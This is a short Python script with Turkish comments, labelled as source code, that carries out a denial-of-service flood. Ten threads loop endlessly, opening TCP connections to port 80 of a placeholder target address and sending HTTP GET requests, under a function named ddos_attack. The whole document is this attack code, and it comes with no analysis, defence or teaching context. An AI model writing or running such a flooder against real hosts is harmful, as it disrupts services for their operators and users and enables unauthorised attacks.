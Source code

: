 import socket
import threading

target_ip = "hedef_ip_adresi"
target_port = 80

def ddos_attack():
    while True:
        try:
            # Bağlantı oluşturma ve veri gönderme
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target_ip, target_port))
            sock.send(b"GET / HTTP/1.1\r\nHost: " + target_ip.encode() + b"\r\n\r\n")
            sock.close()
            print("Paket gönderildi!")
        except:
            print("Bağlantı hatası!")

for i in range(10):
    thread = threading.Thread(target=ddos_attack)
    thread.start()
